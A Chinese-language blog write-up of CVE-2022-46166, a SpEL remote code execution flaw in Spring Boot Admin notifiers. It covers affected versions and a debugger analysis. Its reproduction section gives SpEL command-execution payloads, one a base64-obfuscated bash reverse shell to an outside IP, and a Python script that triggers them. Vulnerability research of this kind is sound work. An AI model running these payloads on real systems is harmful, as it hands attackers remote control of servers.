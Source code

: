 ```yaml
---
title: Spring_Boot_Admins_integrated_notifier_support_SpEL远程代码执行(CVE-2022-46166)
date: 2023-07-23 18:53:00 +0800
img_path: /
categories: [肾透, 漏洞利用]
tags: [肾透, 漏洞利用]

---
```


# Spring_Boot_Admins_integrated_notifier_support_SpEL远程代码执行(CVE-2022-46166)

## 1 漏洞简介

`Spring Boot Admin`是一个用于管理`Spring Boot`应用程序的开源管理用户界面，用于监控`Spring Boot`单机或集群项目，它提供详细的健康信息、内存信息、JVM系统和环境属性、垃圾回收信息、日志设置和查看、定时任务查看、Spring Boot缓存查看和管理等功能。

当`Spring Boot Admin`管理的`application`中启用了`notifier` ，并且存在弱口令或者未授权时，攻击者可利用相关接口设置相关配置，触发`SpEL`表达式，执行任意命令。

所有运行 `Spring Boot Admin Server`、启用通知程序（例如 `Teams-Notifier`）并通过 UI 写入环境变量的用户都会受到影响。 建议用户升级到最新版本的 Spring Boot Admin 2.6.10 和 2.7.8 以解决此问题。 无法升级的用户可以禁用任何通知程序或禁用 `/env` 执行器端点上的写访问（POST 请求）。

## 2 影响范围

2.6.0 ≤ Spring Boot Admin < 2.6.10

2.7.0 ≤ Spring Boot Admin < 2.7.8

3.0.0 ≤ Spring Boot Admin < 3.0.0-M6

## 3 环境搭建



## 4 漏洞分析

`server`端的详细信息页面

[![image-20230211162223391](assets/202302111622455.png)](https://cdn.jsdelivr.net/gh/DickDock/pic/blog/202302111622455.png)

可以看到这里是可以修改相应客户端的环境变量信息的，当然这里我是把`server`端自己注册为自己的`client`端，实现自己监控自己，同时也可以修改`server`端自己的环境变量。

然后跟进`getValue`方法，这里是`CompositeStringExpression`类下的`getValue`方法，调用栈如下

![image-20230211162812448](assets/202302111628479.png)

然后注意到这里的默认评估表达式其实就是一个`SpEl`表达式

![image-20230211162931741](assets/202302111629783.png)

继续跟进`DingTalkNotifier`

![image-20230211163148139](assets/202302111631191.png)



可以看到这里的`content`已经调用刚才的`SpEL`表达式进行了解析，那我们有没有办法控制刚才的`SpEL`表达式呢？

答案是有的

没错，就是刚才我们看到的`server`端的环境变量页面。我们可以修改server端的环境变量，把钉钉消息通知的模板改为我们指定的内容，这里自然是要改成我们特定的`SpEL`表达式。

接下来我们实践一下

修改`server`端的环境变量

![image-20230211163635126](assets/202302111636177.png)

这里我们把`spring.boot.admin.notify.dingtalk.message`的属性值改为了`\#{2*2}`

接下来再次使用`Python`模拟注册客户端并触发通知，然后跟进我们的断点

![image-20230211164036448](assets/202302111640519.png)



![image-20230211164110378](https://cdn.jsdelivr.net/gh/DickDock/pic/blog/202302111641449.png)

可以看到这里我们在环境变量中配置的`SpEL`表达式已经被解析为了`4`，也就是`2*2`的计算结果。

所以这里其实就是一种触发的方式

## 5 漏洞复现

这里我们把`spring.boot.admin.notify.dingtalk.message`的属性值改为了

`#{T(java.lang.Runtime).getRuntime().exec("calc")}`

``` sh
#{T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zOS4xMDcuMTEzLjI1MC85MDAyIDA+JjE=}|{base64,-d}|{bash,-i}")}

```



![image-20230516202245605](assets/image-20230516202245605.png)

触发脚本：

``` py3
import requests

url = "http://127.0.0.1:8080/instances"

data = {
    "name": "client",
    "managementUrl": "http://127.0.0.1:8444/actuator", "healthUrl": "http://127.0.0.1:8444/actuator/health",
    "serviceUrl": "http://127.0.0.1:8444", "metadata": {"startup": "2023-05-16T19:47:50.9381867+08:00"}
}

response = requests.post(url, json=data)

print(response.text)

```

![image-20230516202428303](assets/image-20230516202428303.png)
